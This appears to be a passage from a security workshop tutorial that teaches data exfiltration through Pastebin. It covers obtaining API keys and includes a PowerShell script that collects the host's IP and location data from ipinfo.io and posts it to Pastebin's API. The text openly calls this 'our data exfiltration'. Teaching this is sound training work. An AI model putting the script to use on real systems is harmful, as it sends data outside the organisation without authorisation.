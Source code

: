 ```yaml
---
layout: default
title: Setup Pastebin
nav_order: 5
---
```

# Pastebin
[Famous website](https://pastebin.com/) for “easy copy and paste”
- It's Used in a lot of data exfiltration in companies.
- Obviously, many opensource equivalents exist, so an actual hacker will host their own pastebin.

For our workshop, we will just use a free version right now.

So go to [pastebin](https://pastebin.com/) and create a free account. Consider using [mailnesia.com](https://mailnesia.com/) if you don’t want to use your own private account.

## Get your API-key
On pastebin.com go to the API tab

Find your developer API Key, Never share this with anyone!

![Pastebin developer API Key](../images/developerapikey.png)


Create a new file named logindata.ps1 file with the code below  and copy paste your dev key into that file.

```
$DevKey     =   "PUT-DEVKEY-HERE"
$UserKey    =   "PUT-USER-KEY-HERE"
```
You don't have a UserKey yet.

## First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-pastebin.ps1` with the code below. Open your terminal and run new-pastebin.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

1. Observe the results. You will see an URL
2. Visit this URL

```
#Demo 1, Something easy. Userkey won't be used yet so everything is anonymous
. .\logindata.ps1
$Content    =   Invoke-WebRequest -Uri "https://ipinfo.io/json"
$Title      =   "pastebin1"

$Body = @{ 
    api_dev_key         = $DevKey;
    #    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "0"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
## Preparing more advanced use of Pastebin
Thus far, so our data exiltration is public.​ Thanks to the API key we can upload to Pastebin but we need to use authentication to make it private, so let’s make it private​ 😃

For this we need to setup our “userkey”​

This means we will use 2 keys​

Our dev key, which we already have​

Our user key, still needs creation
